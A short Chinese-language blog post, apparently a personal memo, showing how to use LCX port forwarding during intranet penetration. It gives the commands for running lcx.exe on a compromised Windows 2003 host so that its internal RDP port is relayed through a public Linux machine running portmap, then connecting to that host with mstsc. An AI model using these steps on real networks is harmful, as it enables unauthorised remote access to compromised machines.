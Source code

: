 ```yaml
---
layout:     post
title:      LCX端口转发
subtitle:   win2003-公网linux-本地RDP连接
date:       2019-05-25
author:     Threekb
header-img: img/post-bg-coffee.jpeg
catalog: true
tags:
    - LCX
    - 端口转发
    - 内网渗透
---
```


## LCX端口转发

>LCX端口转发是在渗透过程中经常会用到的一种技术手段，使用方法也比较简单，但是今天用的时候突然忘了该怎么使。
>所以还是做个记录，方便以后查阅

### 实验环境
* win2003  （肉鸡）
* 公网linux  （转发机器）
* 本机   （攻击机）

### 过程记录


* 在肉鸡上传lcx.exe，并在lcx.exe目录下执行命令<br>
`lcx.exe -slave 45.77.43.77 2222 192.168.17.128 3389`
>将本机的3389端口转发到45.77.43.77的2222端口

![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190525215123.png)

* 在公网的linux机器上执行命令<br>
`./portmap -m 2 -p1 2222 -p2 55`
>监听本地的2222端口，并将其数据转发到55端口

![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190525215444.png)

* 在本机使用mstsc连接45.77.43.77的55端口

![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190525215653.png)

### 连接成功

![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190525215810.png)

![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190525215820.png)



